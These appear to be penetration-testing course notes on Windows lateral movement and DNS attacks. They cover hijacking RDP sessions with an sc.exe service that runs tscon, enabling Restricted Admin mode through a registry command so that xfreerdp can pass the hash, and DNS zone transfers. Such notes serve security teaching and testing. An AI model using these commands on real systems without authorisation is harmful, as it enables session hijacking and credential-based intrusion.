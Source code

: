 We can use [Microsoft sc.exe](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/sc-create) binary. Specifying service name `sessionhijack` and the `binpath` which is the command we want to execute. Once we run the command a service named `sessionhijack` will be created.

```cmd-session
sc.exe create sessionhijack binpath= "cmd.exe /k tscon #{TARGET_SESSION_ID} /dest:#{OUR_SESSION_NAME}"
```

To run the service we then start the `sessionhijack` service.
```cmd-session
net start sessionhijack
```

Once the service is started a new terminal with the new user session will appear. We can then use this to further enumerate the network.
***Does not work for windows past Server 2019***

### RDP PTH
We may want to access applications or software installed on the targets windows system that is only available with the GUI.

If we only have a Hash and not a password in some instances we can use PTH

***Caveats***
 `Restricted Admin Mode`, which is disabled by default, should be enabled on the target host.
 
This can be enabled by adding a new registry key `DisableRestrictedAdmin` (REG_DWORD) under `HKEY_LOCAL_MACHINE\System\CurrentControlSet\Control\Lsa`.
```cmd-session
 reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f
```

Once the registry key is added, we can use `xfreerdp` with the option `/pth` to gain RDP access

## Attacking DNS
*DNS* is mostly ran on the port `UDP/53` but *DNS* will rely on `TCP/53` for the future. 
*DNS* was always designed to use `TCP & UDP` as default. 
*DNS* Starts communicating on `UDP` and falls back to `TCP` when it cannot communicate with `UDP` reliably.
### Enumeration
*DNS* holds a lot of information on an organisation. 
`nmap` default scripts `-sC and -sV` can be used to perform initial enumeration.
`dig` can also be used.

### DNS Zone Transfer
A *DNS* zone is a portion of *DNS* `Namespace` that a specific organisation or administrator manages. 
*DNS* compromises multiple *DNS* zones, *DNS* server utilize zone transfers to copy a portion of their database to another *DNS* server.
Unless a *DNS* is configured correctly (by limiting which IPs can perform a zone transfer) anyone can ask a *DNS* server for a copy of its zone information since *DNS* zone transfers don't require authentication. 
